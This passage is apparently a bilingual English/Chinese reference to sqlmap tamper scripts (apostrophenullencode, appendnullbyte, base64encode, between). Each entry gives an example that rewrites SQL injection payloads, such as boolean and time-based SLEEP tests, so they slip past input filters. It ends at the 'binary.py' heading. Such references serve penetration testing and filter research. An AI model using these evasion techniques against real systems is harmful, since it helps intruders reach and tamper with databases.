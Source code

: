 ### apostrophenullencode.py

> Replaces apostrophe character (') with its illegal double unicode counterpart (e.g. ' -> %00%27)

将 `'` 替换成 `%00%27`

```py
>>> tamper("1 AND '1'='1")
'1 AND %00%271%00%27=%00%271'
```

### appendnullbyte.py

> Appends (Access) NULL byte character (%00) at the end of payload

在参数末尾加入 `%00`

Requirement:
* Microsoft Access

Reference
* http://projects.webappsec.org/w/page/13246949/Null-Byte-Injection

```py
>>> tamper('1 AND 1=1')
'1 AND 1=1%00'
```

### base64encode.py

> Base64-encodes all characters in a given payload

base64 编码所有字符

```py
>>> tamper("1' AND SLEEP(5)#")
'MScgQU5EIFNMRUVQKDUpIw=='
```

### between.py

> Replaces greater than operator ('>') with 'NOT BETWEEN 0 AND #' and equals operator ('=') with 'BETWEEN # AND #'

将 `>` 字符替换为 NOT BETWEEN 0 AND

将 `=` 字符替换为 BETWEEN # AND #

```py
>>> tamper('1 AND A > B--')
'1 AND A NOT BETWEEN 0 AND B--'
>>> tamper('1 AND A = B--')
'1 AND A BETWEEN B AND B--'
>>> tamper('1 AND LAST_INSERT_ROWID()=LAST_INSERT_ROWID()')
'1 AND LAST_INSERT_ROWID() BETWEEN LAST_INSERT_ROWID() AND LAST_INSERT_ROWID()'
```

### binary.py
